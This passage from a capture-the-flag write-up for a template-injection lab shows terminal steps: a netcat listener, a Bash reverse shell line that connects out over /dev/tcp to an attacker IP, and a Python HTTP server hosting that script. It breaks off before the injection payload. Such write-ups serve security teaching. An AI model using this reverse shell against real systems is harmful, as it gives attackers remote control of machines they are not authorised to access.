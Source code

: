![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Templates/images/Pasted%20image%2020221103055616.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Create a Bash reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# nano revshell.sh

┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# cat revshell.sh
/bin/bash -i >& /dev/tcp/10.9.0.253/443 0>&1

┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# chmod +x revshell.sh
```

- Host the reverse shell Bash script:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the payload from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs):
